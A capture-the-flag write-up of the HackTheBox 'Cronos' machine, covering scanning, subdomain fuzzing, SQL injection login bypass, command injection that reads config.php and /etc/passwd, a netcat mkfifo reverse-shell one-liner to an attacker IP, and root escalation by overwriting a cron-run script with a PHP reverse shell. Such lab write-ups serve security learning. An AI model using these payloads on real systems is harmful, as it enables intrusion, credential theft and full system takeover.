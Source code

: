 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.13 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/main/Cronos/assets/1.png">

# Enumeration
Running gobuster didn't result in anything.
```
gobuster dir -u http://10.10.10.13/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt
```

We then search for subdomains with wfuzz:
```
wfuzz -u http://cronos.htb -w /usr/share/wordlists/wfuzz/general/big.txt  -H 'Host: FUZZ.cronos.htb' --hw 975
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/2.png">


After adding admin to the /etc/hosts we try if we can use SQL injection to bypass the login form.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/3.png">



This command will list the config.php file. We got a username and password for a database.
```
8.8.8.8;cat config.php
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/4.png">

We can also view the content of /etc/passwd and spot three accounts that have bash available.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/5.png">

# Initial Foothold
We know we can use local file inclusion and command injection. Let's try if we can create a reverse shell by adding the following as command:

```
8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4444 >/tmp/f
```

# Privilege Escalation
We got a reverse shell as ```www-data``` and see that there's a cronjob running. After checking permissions we see that it is owned by ```www-data``` so we are able to change the file to our liking. We could alter it to get the content of /root/root.txt.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/6.png">

Another approach is to replace artisan with a reverse php shell. As this script will run as root we will get a shell as root.

Let's grab the shell from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

We setup a webserver and download the file with ```wget```. We then move the file to replace artisan:
```
mv shell.py /var/www/laravel/artisan
```
We wait while we have our netcat listener ready and get a root shell on the host.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/7.png">









